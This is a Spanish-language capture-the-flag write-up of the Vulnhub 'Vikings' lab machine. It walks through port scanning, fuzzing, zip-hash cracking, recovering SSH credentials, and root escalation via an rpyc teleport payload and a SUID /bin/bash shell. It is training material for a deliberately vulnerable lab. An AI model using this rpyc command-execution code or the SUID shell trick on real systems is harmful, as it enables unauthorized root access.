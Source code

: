 ```yaml
---
title: Vulnhub - Vikings
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'Information Leakage', Criptografía, Rpyc]
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/Vikings/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Vikings Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Criptografía, Rpyc**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Vikings**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Vulnhub/Easy/Vikings/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV  <IP> -oN versiones`**

    ![](/assets/images/Vulnhub/Easy/Vikings/02-versions.png)

    * Tenemos una página web en **http://<IP>/site/**

c. Enumeramos por archivos **.zip, .txt, .php, .php.bak**

```bash
wfuzz -c -t 50 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -z list,zip-txt-php-php.bak http://<IP>/site/FUZZ.FUZ2Z

000002545:   200        1 L      1 W        13 Ch       "war - txt" 
```

* Al ir al archivo **war.txt** veremos una ruta **/war-is-over**, y al ir conseguimos información, la cual nos descargaremos con cURL (La data está en **base64** por lo que antes de guardarla la decodemos)

    ```bash
    curl -s -X GET "http://192.168.100.14/site/war-is-over/" | base64 -d > data
    ```

d. Veremos el tipo de fichero

```bash
file data
data: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
```

* Cambiamos la extensión del archivo **mv data data.zip** y extraemos el hash para tratar de crackearlo con **john** usando el diccionario **rockyou.txt**

```bash
zip2john data.zip > hash
john hash -w=/usr/share/wordlists/rockyou.txt

ragnarok123
```

* Extraemos los archivos de **data.zip**, veremos que obtenemos un fichero **king**

e. Con **binwalk** extraeremos todo tipo de información de este fichero

```bash
binwalk -e king --run-as=root
```

Como resultado obtenemos un directorio **_king.extracted**, y dentro de este, el archivo **user**

```txt
//FamousBoatbuilder_floki@vikings                                     
//f@m0usboatbuilde7
```

f. Nos conectamos en el servicio SSH con las credenciales **floki:f@m0usboatbuilde7**

### Escalada de Privilegios 💹

a. En el directorio de **floki** existe el fichero **boat** y vemos que existe otro usuario **ragnar**

```bash
floki@vikings:~$ cat boat 
#Printable chars are your ally.
#num = 29th prime-number.
collatz-conjecture(num)
floki@vikings:~$ ls /home/
floki  ragnar
```

> La **conjetura de collatz** plantea que al realizar operaciones con un número, si es par lo dividimos en 2, caso contrario lo multiplicamos por 3 y el sumamos 1 y hacemos esta operación múltiples veces, siempre llegaremos al número 1, sin importar con que número empecemos. **Por ejemplo, tomando n = 6, la secuencia es: 6, 3, 10, 5, 16, 8, 4, 2, 1**
{: .prompt-tip }

b. Creamos un script en python con la lógica de la conjetura de collatz

```py

first_number = 109 # 29vo Numero Primo

password = chr(first_number)

while (first_number != 1):
	if (first_number % 2 == 0):
		first_number //= 2
	else:
		first_number = (first_number * 3) + 1

	if(first_number >= 32 and first_number <= 126):
		password += chr(first_number)

print(password)
---------------------------------------------------
mR)|>^/Gky[gz=\.F#j5P(
```

c. Intentamos autenticarnos como el usuario **ragnar** con la cadena obtenida previamente

```bash
floki@vikings:~$ su ragnar
Password: 
ragnar@vikings:/home/floki$ 
```

d. Leemos el archivo **.profile** del directorio personal de ragnar

```bash
ragnar@vikings:~$ cat .profile 
<SNIP>
sudo python3 /usr/local/bin/rpyc_classic.py
<SNIP>
```

> **`RPYC:`** (Remote Python Call) es un protocolo de comunicación utilizado para permitir la ejecución de código Python en un sistema remoto desde otro sistema, todo ello a través de la red. Por defecto, RPyC escucha en el puerto TCP 18812 para las conexiones de servicio y en el puerto TCP 18811 para las conexiones de registros.
{: .prompt-tip }

* De lo anterior observamos que podemos ejecutar **rpcy** como root, y al ver los puertos abiertos en la **Máquina Víctima** veremos que el puerto **18812** está abierto

e. Ejecutamos un comando usando rpcy

```python
import rpyc

def getshell():
    import subprocess
    result = subprocess.Popen("whoami", shell=True, stdout=subprocess.PIPE)
    return result.communicate()[0]

conn = rpyc.classic.connect("localhost")
fn = conn.teleport(getshell)
output = fn()
print(output.decode())
---------------------------------------------------------------------------
root
```

f. Asignamos el permiso **SUID** al bash **`chmod +s /bin/bash`** y spawneamos un shell como **root**

```bash
ragnar@vikings:~$ bash -p
bash-4.4# whoami
root
```